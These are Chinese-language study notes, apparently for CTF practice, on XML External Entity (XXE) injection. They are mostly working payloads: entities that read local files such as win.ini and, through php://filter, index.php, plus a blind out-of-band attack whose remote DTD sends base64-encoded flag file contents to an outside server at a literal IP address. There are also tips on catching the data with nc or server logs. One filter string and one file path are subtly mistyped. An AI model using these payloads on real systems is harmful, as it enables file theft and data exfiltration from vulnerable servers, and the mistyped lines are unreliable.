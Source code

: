 # XXE基础

```
<?xml version = "1.0"?>  //xml头
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>  //主体
<na>&cc;</na>  //xml
```

xml中的标签是可以任意命名的





# 有回显，外部实体XXE

```
<?xml version = "1.0"?>
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>
<na>&cc;</na>
```

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY f SYSTEM "file:///C://Windows//win/ini"> ]>
<x>&f;</x>
```

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "file:///C://Windows//win/ini"> ]>
<user><username>&admin;</username><password> admin</password></user> 
```

php伪协议文件读取

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/index.php"> ]>
<user><username>&admin;</username><password> admin</password></user> 
```



# 无回显，外部实体，XXE

xml payload

```html
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://123.60.57.4/test.dtd">
%remote;%dtd;%xxe;
]>
```

先执行remote实体，再在该服务器中的test.dtd文件中执行dtd实体，再执行xxe实体



在服务器上/var/www/html下创建test.dtd文件

```
<!ENTITY % file SYSTEM "php://filter/read=convert-base64.encode/resource=/flag.txt">
//这里的文件读取也可以换成其他伪协议，如http,file
<!ENTITY % dtd "<!ENTITY xxe SYSTEM 'http://123.60.57.4/pass=%file;'>">
```

```
<!ENTITY % file SYSTEM "https://127.0.0.1/flag.php">
<!ENTITY % dtd "<!ENTITY xxe SYSTEM 'http://123.60.57.4/pass=%file;'>">
```

<!-- &#x25; 就是百分号（&#x25; vps=% vps），因为是嵌套在里面的引用，不能直接写百分号 -->
<!-- 如果选择nc监听的话，端口一定要加！！！ -->
<!-- 如果选择看日志的话，端口一定不能加！！！ -->


